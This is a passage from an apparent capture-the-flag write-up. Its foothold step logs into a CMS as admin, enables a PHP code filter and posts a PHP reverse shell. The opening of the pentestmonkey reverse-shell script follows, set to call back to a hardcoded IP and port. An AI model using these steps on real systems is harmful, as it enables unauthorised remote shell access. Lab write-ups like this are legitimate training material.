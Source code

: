
# FOOTHOLD

With this password and with username admin we log in to port 80.Enumerating more we come across the modules tab and there is a filter which allows us to execute php code blocks on the site ( this filter is unchecked, make sure to check it and save the configurations )

After this we click on "add new content" and copy paste our php reverse shell there, and change the text type at the bottom of the page from HTML to PHP.When we save it while simultaneously listening in out terminal we get a reverse shell.

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.34';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
```